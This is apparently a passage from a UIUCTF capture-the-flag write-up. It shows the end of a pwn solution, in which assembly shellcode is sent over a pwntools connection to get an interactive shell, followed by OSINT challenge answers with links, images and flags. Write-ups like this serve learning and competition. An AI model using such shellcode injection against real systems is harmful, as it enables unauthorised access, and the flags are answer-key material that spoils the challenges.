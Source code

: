 ```python
mov rsi, rsp
mov rdx, 0x1
syscall
""")

conn.sendlineafter("you.\n", shellcode)
conn.interactive()
```
:::

`uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}`

## OSINT
### Hip With the Youth
https://www.threads.net/@longislandsubwayauthority/post/C8tBD_eRl9Z?xmt=AQGzetMM2HApb_vk6RGxR2Ii0u8szZtwQ9yd47lN5nnlLAM
![image](https://hackmd.io/_uploads/rJ30UfTUC.png)
`uiuctf{7W1773r_K!113r_321879}`

### An Unlikely Partnership
https://www.linkedin.com/in/uiuc-chan/
![image](https://hackmd.io/_uploads/Sk4NXMaI0.png)
`uiuctf{0M160D_U1UCCH4N_15_MY_F4V0r173_129301}`

### Night

找到[位置](https://maps.app.goo.gl/qr6zGGh4mHYTT4mUA)

稍微測試一下周圍的路，找到拍攝角度可能是後面一點的橋的地方

`uiuctf{Arlington Street, Boston}`